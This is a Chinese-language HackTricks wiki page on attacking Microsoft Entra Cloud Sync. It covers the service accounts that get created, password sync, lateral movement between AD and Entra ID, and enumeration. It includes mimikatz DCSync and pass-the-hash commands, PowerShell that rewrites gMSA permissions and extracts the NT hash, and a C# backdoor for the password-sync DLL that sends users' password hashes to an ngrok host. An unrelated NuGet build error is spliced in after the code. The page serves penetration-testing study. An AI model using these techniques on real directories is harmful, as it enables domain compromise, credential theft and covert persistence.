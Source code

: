 # Az - Cloud Sync

{{#include ../../../banners/hacktricks-training.md}}

## 基本信息

**Cloud Sync** 基本上是 Azure 用于 **将用户从 AD 同步到 Entra ID** 的新方式。

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/what-is-cloud-sync) Microsoft Entra Cloud Sync 是 Microsoft 提供的一项新服务，旨在满足和实现您在用户、组和联系人同步到 Microsoft Entra ID 的混合身份目标。它通过使用 Microsoft Entra 云配置代理而不是 Microsoft Entra Connect 应用程序来实现这一点。然而，它可以与 Microsoft Entra Connect Sync 一起使用。

### 生成的主体

为了使其正常工作，在 Entra ID 和本地目录中创建了一些主体：

- 在 Entra ID 中，用户 `On-Premises Directory Synchronization Service Account` (`ADToAADSyncServiceAccount@carloshacktricks.onmicrosoft.com`) 被创建，角色为 **`Directory Synchronization Accounts`** (`d29b2b05-8046-44ba-8758-1e26182fcf32`)。

> [!WARNING]
> 此角色曾经拥有很多特权权限，可以用来 [**提升权限甚至到全局管理员**](https://medium.com/tenable-techblog/stealthy-persistence-with-directory-synchronization-accounts-role-in-entra-id-63e56ce5871b)。然而，Microsoft 决定移除此角色的所有权限，并仅分配一个新的 **`microsoft.directory/onPremisesSynchronization/standard/read`**，这实际上不允许执行任何特权操作（如修改用户的密码或属性或向 SP 添加新凭据）。

- 在 Entra ID 中，还创建了没有成员或所有者的组 **`AAD DC Administrators`**。如果使用 [`Microsoft Entra Domain Services`](./az-domain-services.md)，此组非常有用。

- 在 AD 中，服务帐户 **`provAgentgMSA`** 被创建，SamAccountName 类似于 **`pGMSA_<id>$@domain.com`** (`Get-ADServiceAccount -Filter * | Select Name,SamAccountName`)，或者需要具有 [**这些权限的自定义帐户**](https://learn.microsoft.com/en-us/entra/identity/hybrid/cloud-sync/how-to-prerequisites?tabs=public-cloud#custom-gmsa-account)。通常会创建默认帐户。

> [!WARNING]
> 除其他权限外，服务帐户 **`provAgentgMSA`** 拥有 DCSync 权限，允许 **任何人一旦妥协它就能妥协整个目录**。有关 DCSync 的更多信息，请查看 [此处](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/dcsync.html)。

> [!NOTE]
> 默认情况下，具有 **`adminCount` 为 1 的已知特权组（如域管理员）的用户出于安全原因不会与 Entra ID 同步。然而，其他没有此属性的特权组成员或直接分配高权限的用户 **可以被同步**。

## 密码同步

该部分与以下内容非常相似：

{{#ref}}
az-connect-sync.md
{{#endref}}

- **密码哈希同步** 可以启用，以便用户能够 **使用他们在 AD 中的密码登录 Entra ID**。此外，每当在 AD 中修改密码时，它将在 Entra ID 中更新。
- **密码回写** 也可以启用，允许用户在 Entra ID 中修改他们的密码，并自动同步他们在本地域中的密码。但根据 [当前文档](https://learn.microsoft.com/en-us/entra/identity/authentication/tutorial-enable-sspr-writeback#configure-password-writeback)，这需要使用 Connect Agent，因此请查看 [Az Connect Sync 部分](./az-connect-sync.md) 以获取更多信息。
- **组回写**：此功能允许 Entra ID 中的组成员资格同步回本地 AD。这意味着如果用户被添加到 Entra ID 中的组，他们也将被添加到 AD 中的相应组。

## 侧向移动

### AD --> Entra ID

- 如果 AD 用户正在从 AD 同步到 Entra ID，则从 AD 到 Entra ID 的侧向移动是直接的，只需 **妥协某个用户的密码或更改某个用户的密码，或创建一个新用户并等待它同步到 Entra ID 目录（通常只需几分钟）**。

例如，您可以：
- 妥协 **`provAgentgMSA`** 帐户，执行 DCSync 攻击，破解某个用户的密码，然后用它登录 Entra ID。
- 只需在 AD 中创建一个新用户，等待它同步到 Entra ID，然后用它登录 Entra ID。
- 修改 AD 中某个用户的密码，等待它同步到 Entra ID，然后用它登录 Entra ID。

要妥协 **`provAgentgMSA`** 凭据：
```powershell
# Enumerate provAgentgMSA account
Get-ADServiceAccount -Filter * -Server domain.local
# Find who can read the password of the gMSA (usually only the DC computer account)
Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties * -Server domain.local | selectPrincipalsAllowedToRetrieveManagedPassword

# You need to perform a PTH with the hash of the DC computer account next. For example using mimikatz:
lsadump::dcsync /domain:domain.local /user:<dc-name>$
sekurlsa::pth /user:<dc-name>$ /domain:domain.local /ntlm:<hash> /run:"cmd.exe"

# Or you can change who can read the password of the gMSA account to all domain admins for example:
Set-ADServiceAccount -Identity 'pGMSA_<id>$' -PrincipalsAllowedToRetrieveManagedPassword 'Domain Admins'

# Read the password of the gMSA
$Passwordblob = (Get-ADServiceAccount -Identity pGMSA_<id>$ -Properties msDS-ManagedPassword -server domain.local).'msDS-ManagedPassword'

#Install-Module -Name DSInternals
#Import-Module DSInternals
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
现在您可以使用 gMSA 的哈希值对 Entra ID 执行 Pass-the-Hash 攻击，使用 `provAgentgMSA` 账户并保持持久性，从而能够对 AD 执行 DCSync 攻击。

有关如何破坏 Active Directory 的更多信息，请查看：

{{#ref}}
https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html
{{#endref}}

> [!NOTE]
> 请注意，无法根据其属性为同步用户在 Cloud Sync 配置中授予 Azure 或 EntraID 角色。然而，为了自动授予同步用户权限，某些 **来自 AD 的 Entra ID 组** 可能会被授予权限，因此这些组内的同步用户也会接收到这些权限，或者 **可以使用动态组**，因此始终检查动态规则和潜在的滥用方式：

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/dynamic-groups.md
{{#endref}}

关于持久性，[这篇博客文章](https://tierzerosecurity.co.nz/2024/05/21/ms-entra-connect-sync-mothods.html) 建议可以使用 [**dnSpy**](https://github.com/dnSpy/dnSpy) 来后门 **`Microsoft.Online.Passwordsynchronisation.dll`**，该文件位于 **`C:\Program Files\Microsoft Azure AD Sync\Bin`**，由 Cloud Sync 代理使用以执行密码同步，使其将被同步用户的密码哈希导出到远程服务器。哈希是在 **`PasswordHashGenerator`** 类内部生成的，博客文章建议添加一些代码，使该类看起来像（注意 `use System.Net` 和 `WebClient` 的使用以导出密码哈希）：
```csharp
using System;
using System.Net;
using Microsoft.Online.PasswordSynchronization.DirectoryReplicationServices;

namespace Microsoft.Online.PasswordSynchronization
{
// Token: 0x0200003E RID: 62
public class PasswordHashGenerator : ClearPasswordHashGenerator
{
// Token: 0x06000190 RID: 400 RVA: 0x00006DFC File Offset: 0x00004FFC
public override PasswordHashData CreatePasswordHash(ChangeObject changeObject)
{
PasswordHashData passwordHashData = base.CreatePasswordHash(changeObject);
try
{
using (WebClient webClient = new WebClient())
{
webClient.DownloadString("https://786a39c7cb68.ngrok-free.app?u=" + changeObject.DistinguishedName + "&p=" + passwordHashData.Hash);
}
}
catch (Exception)
{
}
return new PasswordHashData
{
Hash = OrgIdHashGenerator.Generate(passwordHashData.Hash),
RawHash = passwordHashData.RawHash
};
}
}
}
```
NuGet 包恢复失败，项目 AzTokenFinder：无法找到包 'System.Security.Cryptography.X509Certificates' 的版本 '4.3.2'。  
C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\: 在源 'C:\Program Files (x86)\Microsoft SDKs\NuGetPackages\' 中未找到包 'System.Security.Cryptography.X509Certificates.4.3.2'。  
请查看错误列表窗口以获取详细的警告和错误。

### Entra ID --> AD

- 如果启用了 **Password Writeback**，您可以从 Entra ID 修改某些用户的密码，如果您可以访问 AD 网络，则可以使用这些密码进行连接。有关更多信息，请查看 [Az Connect Sync section](./az-connect-sync.md) 部分，因为密码写回是通过该代理配置的。

- 此时，Cloud Sync 还允许 **"Microsoft Entra ID to AD"**，但经过一段时间后我发现它无法将 EntraID 用户同步到 AD，并且它只能同步与密码哈希同步的 EntraID 用户，这些用户来自与我们正在同步的域属于同一域林的域，正如您在 [https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits](https://learn.microsoft.com/en-us/entra/identity/hybrid/group-writeback-cloud-sync#supported-groups-and-scale-limits) 中所读到的：

> - 这些组只能包含本地同步的用户和/或额外的云创建的安全组。  
> - 被同步的本地用户帐户和此云创建的安全组的成员，可以来自同一域或跨域，但它们必须来自同一林。

因此，该服务的攻击面（和实用性）大大降低，因为攻击者需要破坏初始 AD，才能破坏其他域中的用户（而且这两个域显然必须在同一林中）。

### Enumeration
```bash
# Check for the gMSA SA
Get-ADServiceAccount -Filter "ObjectClass -like 'msDS-GroupManagedServiceAccount'"

# Get all the configured cloud sync agents (usually one per on-premise domain)
## In the machine name of each you can infer the name of the domain
az rest \
--method GET \
--uri "https://graph.microsoft.com/beta/onPremisesPublishingProfiles('provisioning')/agents/?\$expand=agentGroups" \
--headers "Content-Type=application/json"
```
{{#include ../../../banners/hacktricks-training.md}}
